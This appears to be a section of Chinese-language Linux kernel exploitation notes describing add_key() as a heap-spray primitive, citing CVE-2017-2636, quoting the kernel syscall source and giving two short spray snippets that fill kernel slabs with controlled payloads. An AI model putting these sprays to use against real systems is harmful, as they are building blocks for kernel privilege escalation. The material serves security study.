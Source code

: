#### 5. add_key()

**参考**：[CVE-2017-2636](https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html)

**size**：<= `kmalloc-8192`    最大不超过 `/proc/sys/kernel/keys/maxbytes` 中规定的值，默认为20000。

**产生**：[add_key](https://elixir.bootlin.com/linux/v5.11.14/source/security/keys/keyctl.c#L116)

```c
SYSCALL_DEFINE5(add_key, const char __user *, _type,
		const char __user *, _description,
		const void __user *, _payload,
		size_t, plen,
		key_serial_t, ringid)
{
	key_ref_t keyring_ref, key_ref;
	char type[32], *description;
	void *payload;
	long ret;
	... ... 		// 读取type/description
	payload = NULL;

	if (plen) {
		ret = -ENOMEM;
		payload = kvmalloc(plen, GFP_KERNEL);				// [1] 分配空间
		if (!payload)
			goto error2;

		ret = -EFAULT;
		if (copy_from_user(payload, _payload, plen) != 0)	// [2] 拷贝用户数据
			goto error3;
	}
	... ...
 error:
	return ret;
}
```

**构造**：

```c
// 方法1
void spray_addkey(int count) {
	int i;
	char payload[BUF_SIZE];
	char desc[256];
	memset(payload, 0x42, BUF_SIZE);
	for(i=0; i<count; i++) {
		sprintf(desc, "payload%d", i);
		add_key_arr[i] = _add_key("user", desc, payload, 0x300, KEY_SPEC_PROCESS_KEYRING);
	}
}
// 方法2
#include <linux/keyctl.h>
#define PAYLOAD_SZ			8100
k[0] = syscall(__NR_add_key, "user", "payload1", payload, PAYLOAD_SZ, KEY_SPEC_PROCESS_KEYRING);
k[1] = syscall(__NR_add_key, "user", "payload2", payload, PAYLOAD_SZ, KEY_SPEC_PROCESS_KEYRING);
```
